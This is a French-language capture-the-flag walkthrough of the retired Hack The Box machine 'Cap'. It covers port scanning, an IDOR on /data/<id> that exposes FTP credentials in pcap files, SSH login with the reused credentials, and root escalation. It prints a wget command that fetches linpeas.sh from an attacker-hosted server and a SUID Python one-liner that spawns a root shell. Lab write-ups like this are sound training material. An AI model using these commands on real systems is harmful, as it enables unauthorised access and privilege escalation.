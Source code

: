 # Cap (HTB - Retired - Easy)
**Date :** 07/05/2025  
**Catégorie :** IDOR, FTP credentials, SUID Python PrivEsc  
**Difficulté :** Easy  
**Objectif :** Obtenir les flags `user.txt` et `root.txt`

---

## Nmap

```bash
nmap -Pn -sV nmap.txt 10.10.11.XXX
```

![Nmap results](./nmap_cap.jpg
)

Résultat :
21/tcp - FTP

22/tcp - SSH

80/tcp - HTTP

## Enum Web
Sur le port 80, on accède à un site affichant un dashboard, avec plusieurs onglets, dont un nommé Security Snapshot.
L’URL lors de la consultation d’un rapport ressemble à :
http://10.10.11.XXX/data/0

## IDOR (Insecure Direct Object Reference)
Changement de la valeur dans l’URL (/data/1, /data/2, etc.) permet de télécharger différents fichiers .pcap.
On télécharge ceux qui semblent intéressants et on les ouvre avec Wireshark.
## Analyse de fichier PCAP
Dans le fichier correspondant à /data/0, on observe des transferts FTP en clair, et on identifie :
Nom d’utilisateur FTP


Mot de passe FTP


(Le tout visible dans les paquets FTP Request et FTP Response.)

![Wireshark](./cap_wireshark.png)

## Accès FTP & SSH
Connexion au serveur FTP :
```bash
ftp 10.10.11.XXX
```

Les identifiants FTP fonctionnent également pour se connecter en SSH :
```bash
ssh user@10.10.11.XXX
```
Flag user.txt trouvé dans le répertoire home.

![FTP](./co_ftp.png)



![Userflag and linpeas import](./cap_user_linpeas.png)


## Escalade de privilèges
Upload de linpeas.sh pour l’analyse locale :
### Sur la machine attaquante
```bash
python3 -m http.server 8000
```

### Sur la cible
```bash
wget http://<attacker_ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## SUID Python trouvé :
```bash
-rwsr-xr-x 1 root root 3700736 Jul  7  2021 /usr/bin/python3.8
```

## Exploitation SUID Python
Lancement de Python avec élévation des privilèges :
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

On obtient un shell root, puis :
```bash
cat /root/root.txt
```

## 🛠️ Résumé des étapes

| Étape                | Technique                          |
|----------------------|------------------------------------|
| Initial Access       | IDOR via `/data/<id>`              |
| Credential Access    | Analyse de `.pcap` → FTP creds     |
| Lateral Movement     | Reuse FTP creds → SSH              |
| Privilege Escalation | SUID Python 3.8 → root shell       |
